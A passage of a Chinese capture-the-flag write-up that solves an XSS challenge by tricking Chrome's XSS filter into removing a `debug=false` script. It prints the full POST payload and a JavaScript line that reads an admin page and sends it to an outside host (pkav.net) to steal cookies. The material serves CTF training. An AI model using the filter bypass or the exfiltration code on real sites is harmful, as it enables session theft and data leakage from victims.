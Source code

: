 * * *

首先我们随便提交一个message，看了下输出的HTML：

![p8](http://drops.javaweb.org/uploads/images/5de81c8f66f0bb5aa3d0998240fe1828109d3630.jpg)

username写在div的id属性中，message写在JavaScript的data变量中，测试了几次后发现message里的`\\`会变成`\`，可以构造成任意字符。secret在URL的GET参数里。

那么如果我们的secret包含`<script>var debug=false;</script>`，Chrome的XSS filter会认为HTML出现的`<script>var debug=false;</script>`是反射XSS的输出，把他给屏蔽掉无法执行。debug变量会引用到一个标签上去，把username写成debug则`if(debug)`就会为true，执行`t.innerHTML = data`，从而实现XSS。

POST数据包：

```
POST /message.php HTTP/1.1
Host: 202.120.7.201:8888
Content-Length: 832
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: http://202.120.7.201:8888
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/48.0.2564.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Referer: http://202.120.7.201:8888/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6,zh-TW;q=0.4

secret=1z1zfqwq%3Cscript%3Evar+debug%3Dfalse%3B%3C%2Fscript%3E&username=debug&message=\\x3cimg+src%3d%23+id%3dxssyou+style%3ddisplay%3anone+onerror%3deval(unescape(/alert%25281%2529/.source))%3b//\\x3e&action=submit

```

![p9](http://drops.javaweb.org/uploads/images/b33ae455877973e7ccb1a8999b13ccb4e27db5b1.jpg)

写了几行JS来读取当前页面HTML，

得到：

![p10](http://drops.javaweb.org/uploads/images/e0b2d715ed3bacf4319795cc404a649d79f062d7.jpg)

读取/admin/server_info.php：

```
xmlhttp=new XMLHttpRequest();xmlhttp.open("GET","/admin/server_info.php ",false);xmlhttp.send();r=xmlhttp.responseText;xmlhttp.responseText;xmlhttp.open("POST","http://pkav.net/1.php",false);xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");xmlhttp.send("d="+escape(r));

```

发现是一个PHP探针，带了一个phpinfo，phpinfo中会回显出整个`$_COOKIE`数组，得到flag

![p11](http://drops.javaweb.org/uploads/images/4b649444702c544fbe935acb6c5ba875d0eb3633.jpg)
